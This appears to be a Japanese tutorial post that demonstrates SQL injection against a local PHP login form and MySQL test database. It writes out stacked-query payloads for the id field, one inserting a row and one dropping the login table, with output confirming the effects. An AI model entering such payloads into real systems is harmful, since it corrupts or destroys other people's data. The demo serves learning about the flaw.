 # SQLインジェクション sample
[CSRF](https://qiita.com/bunty/private/61b5a83a40f32f7253a4#sql%E3%82%A4%E3%83%B3%E3%82%B8%E3%82%A7%E3%82%AF%E3%82%B7%E3%83%A7%E3%83%B3)に関してあれこれ      
とりあえずこれでブラウザで確認しよう  

## これようにdbをつくる

まとめてコピペ

```sql
CREATE DATABASE test;
CREATE USER 'test'@'localhost' IDENTIFIED BY 'test';
grant all on test.* to 'test'@'localhost' identified by 'test';
create table test.login(id int, password varchar(20));
insert into login(id, password) values(1, 'hoge');
```

一応確認

```sql 
mysql> select * from login;
+------+----------+
| id   | password |
+------+----------+
|    1 | hoge     |
+------+----------+
1 row in set (0.00 sec)
```

テスト用のデータを入れる

```sql
mysql> insert into login(id, password) values(1, 'hoge');
```

## [ビルトインウェブサーバー ](http://php.net/manual/ja/features.commandline.webserver.php)を開始させる

```
$ php -S localhost:8080 -t sql-injection
```

## Chromeを開く

```
$ open -na Google\ Chrome
```


## SQLを実行させてみる

idのにこれを入力、パスワードにはhogeを入力するとログインが完了してinsertもされる(上のログインフォームだと大丈夫)

```sql
1; insert into login(id, password) values(2, 'fuga');
```

insertされてるかの確認

```sql
mysql> select * from login;
+------+----------+
| id   | password |
+------+----------+
|    1 | hoge     |
|    2 | fuga     |
+------+----------+
2 rows in set (0.00 sec)

```


同じくidにこれを入力すると画面上は何も起きないが、テーブルが削除される

```sql
5; drop table login;
```

```sql
mysql> select * from login;
ERROR 1146 (42S02): Table 'test.login' doesn't exist
```

## 参考
[SQLインジェクション対策(PHP編)](https://www.websec-room.com/2013/03/04/404)  
[PHPでデータベースに接続するときのまとめ](https://qiita.com/mpyw/items/b00b72c5c95aac573b71#pdoquery-%E3%83%A1%E3%82%BD%E3%83%83%E3%83%89%E3%81%A7%E7%9B%B4%E6%8E%A5%E3%82%AF%E3%82%A8%E3%83%AA%E3%82%92%E5%AE%9F%E8%A1%8C%E3%81%99%E3%82%8B)  
